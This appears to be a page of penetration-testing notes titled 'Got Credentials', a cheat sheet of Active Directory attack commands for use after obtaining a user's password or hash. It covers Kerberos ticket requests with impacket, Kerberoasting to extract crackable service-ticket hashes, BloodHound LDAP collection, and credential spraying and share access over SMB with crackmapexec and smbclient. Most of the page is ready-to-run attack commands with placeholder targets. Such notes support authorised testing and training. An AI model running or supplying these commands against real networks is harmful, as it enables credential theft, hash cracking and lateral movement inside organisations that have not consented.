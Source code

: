 # Got Credentials
## Kerberos Ticket
Uses a valid user's NTLM hash to request Kerberos tickets in order to access any service or machine where the user has permissions. Impacket tools can be used with Kerberos Tickets with `-k -no-pass`.
```bash
impacket-getTGT domain.local/username:password

export KRB5CCNAME=username.ccache
```

## Kerberoasting
Attempt to fetch Service Principal Names (SPN) that are associated with normal user accounts. What is returned is a ticket that is encrypted with the user account's password which can then be brute forced offline.
```bash
impacket-GetUserSPNs -request domain.local/username:password -dc-ip domain.local -outputfile hashes.kerbroast
```

Got Hash: [Next](cracking-hashes.md#spn)

## BloodHound
Python based injector for BloodHound to remotely collect data for BloodHound by querying LDAP.
```bash
bloodhound-python -c All -u username -p 'password' -d domain.local -dc domain.local -ns 10.10.10.10
```

Got Data: [Here](bloodhound.md)

## SMB
Test credentials against SMB and list any shares they have permissions to read or write to.
```bash
crackmapexec smb 10.10.10.10 -u username -p password --shares
```

Use credentials to access SMB shares the user has permissions to.
```bash
smbclient -U 'domain.local/username%password' //domain.local/share\$
```

